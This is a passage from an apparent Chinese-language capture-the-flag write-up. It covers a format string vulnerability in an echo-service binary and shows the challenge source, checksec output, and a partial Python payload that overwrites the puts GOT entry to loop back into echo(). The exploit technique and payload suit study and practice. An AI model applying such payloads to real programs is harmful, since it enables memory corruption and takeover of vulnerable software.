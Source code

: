 ```
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);

    char welcome[] =
        "================================================\n"
        "Welcome to the super echo-mon-better system, it \n"
        "will echo anything you said, like:\n\n"
        "Melody: I wanna a flag, mom\n"
        "Mom: I wanna a flag, mom\n"
        "================================================\n";
    puts(welcome);

    signal(SIGALRM, timeout);
    alarm(5);
}

int main(int argc, char const *argv[]) {
    welcome();
    echo();
    return 0;
}
```
checksec 看一下开的保护：
```
root@kali:~/Desktop/release# checksec fsb_one
[*] '/root/Desktop/release/fsb_one'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
然后IDA载入分析漏洞

<img src="/images/posts/fmt1/1523756383552.png" >

程序不但没有了getshell函数，同时也没有了循环，不能多次利用格式化字符串漏洞。但是我们还是可以修改got表，所以我们没有for循环，但是可以利用修改puts的got表来制造循环，从而形成可以多次利用格式化字符串漏洞。最后这道题其实就是第一题和第二题的结合版了吧。

首先我们先修改puts的got表为echo()的地址，构成循环。
```
echo = 0x400806
n = 6 + 8
pattern = "%{}c%{}$hn" #{}里面最大是五位数0x1000-->65536（四个字节）
#13个字符--->16 (1+5+1+1+2+1+1+1)

payload = ""
payload += pattern.format(0x806,n)
payload += pattern.format(s_sub(0x40,0x806),n+1)
payload += pattern.format(s_sub(0,0x40),n+2)
payload = payload.ljust(64,"A")

payload += p64(0x601018)
payload += p64(0x60101a)
payload += p64(0x60101c)
```